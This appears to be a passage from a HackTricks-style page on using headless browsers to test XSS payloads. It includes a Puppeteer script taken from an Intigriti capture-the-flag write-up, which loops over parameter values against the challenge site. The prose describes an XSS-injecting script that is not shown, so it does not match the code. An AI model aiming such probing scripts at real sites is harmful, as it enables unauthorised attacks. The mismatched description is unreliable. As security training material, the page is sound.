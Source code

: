 In this example, the script uses Puppeteer to launch a headless browser, navigate to the target URL, inject an XSS payload into the page, wait for the payload to execute, take a screenshot of the page, and then close the browser.

### Conclusion

Automated browser access can be a valuable technique for testing XSS payloads in a more efficient and scalable manner. By using tools like PhantomJS, Selenium WebDriver, or Puppeteer, you can automate the process of accessing a target URL and executing JavaScript code, allowing for easier testing and analysis of XSS vulnerabilities.
```javascript
//Taken from https://github.com/svennergr/writeups/blob/master/inti/0621/README.md
const puppeteer = require("puppeteer");

const realPasswordLength = 3000;
async function sleep(ms) {
return new Promise((resolve) => setTimeout(resolve, ms));
}

(async () => {
const browser = await puppeteer.launch();
const page = await browser.newPage();
//Loop to iterate through different values
for (let i = 0; i < 10000; i += 100) {
console.log(`Run number ${i}`);
const input = `${"0".repeat(i)}${realPasswordLength}`;
console.log(`  https://challenge-0621.intigriti.io/passgen.php?passwordLength=${input}&allowNumbers=true&allowSymbols=true&timestamp=1624556811000`);
//Go to the page
await page.goto(
`https://challenge-0621.intigriti.io/passgen.php?passwordLength=${input}&allowNumbers=true&allowSymbols=true&timestamp=1624556811000`
);
//Call function "generate()" inside the page
await page.evaluate("generate()");
//Get node inner text from an HTML element
const passwordContent = await page.$$eval(
".alert .page-content",
(node) => node[0].innerText
);
//Transform the content and print it in console
const plainPassword = passwordContent.replace("Your password is: ", "");
if (plainPassword.length != realPasswordLength) {
console.log(i, plainPassword.length, plainPassword);
}

await sleep(1000);
}
await browser.close();
})();
```
<details><summary><strong>qaStaHvIS AWS hacking vItlhutlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

